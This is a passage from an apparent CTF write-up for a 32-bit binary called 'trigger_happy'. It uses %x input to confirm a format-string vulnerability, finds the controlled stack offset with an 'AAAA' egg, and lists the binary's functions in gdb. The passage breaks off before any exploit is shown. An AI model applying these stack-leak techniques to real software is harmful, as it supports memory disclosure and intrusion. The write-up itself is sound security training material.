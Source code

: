 Seems suspecious, let's try %x as input and see what do we get.
```bash
$ ./trigger_happy
Do you like 0xL4ugh CTF?
%x %x %x
I am glad you
200 f7f52540 80491d1

We wish you luck!
```
Voila, seems like we found a format string vulnerable pivot which we can use to leak stack values or even write to pointers on the stack.
We can further confirm our assumptions by checking the disassembly of our binary for a printf() call with only one argument, but we are going to skip this step.

One more thing we are going to do is locating the index of the stack entry we control with the printf function, a simple way to do this is by placing an egg and following it with a couple of %x's until we can see our egg in the leaked addresses and then we can get its index.
```bash
$ ./trigger_happy
Do you like 0xL4ugh CTF?
AAAA %x %x %x %x %x %x %x %x 
I am glad you
AAAA 200 f7fbb540 80491d1 41414141 20782520 25207825 78252078 20782520

We wish you luck!
```
We can see the hex value for our egg (AAAA) at the 4th entry on the stack.
## More Static Analysis
I always love to start the analysis by listing the current function in the binary using gdb, and happily our binary isn't stripped.
```
gef➤  info functions
All defined functions:

Non-debugging symbols:
0x08049000  _init
0x08049030  printf@plt
0x08049040  fgets@plt
0x08049050  getegid@plt
0x08049060  puts@plt
0x08049070  system@plt
0x08049080  __libc_start_main@plt
0x08049090  setvbuf@plt
0x080490a0  setresgid@plt
0x080490b0  _start
0x080490f0  _dl_relocate_static_pie
0x08049100  __x86.get_pc_thunk.bx
0x08049110  deregister_tm_clones
0x08049150  register_tm_clones
0x08049190  __do_global_dtors_aux
0x080491c0  frame_dummy
0x080491c2  response
0x08049245  flaggy
0x08049270  main
0x080492eb  __x86.get_pc_thunk.ax
0x080492f0  __libc_csu_init
0x08049350  __libc_csu_fini
0x08049351  __x86.get_pc_thunk.bp
0x08049358  _fini
```
The only function which seems suspecious is "flaggy" which kinda sounds like "flag"?
Let's disassmble it.
```
```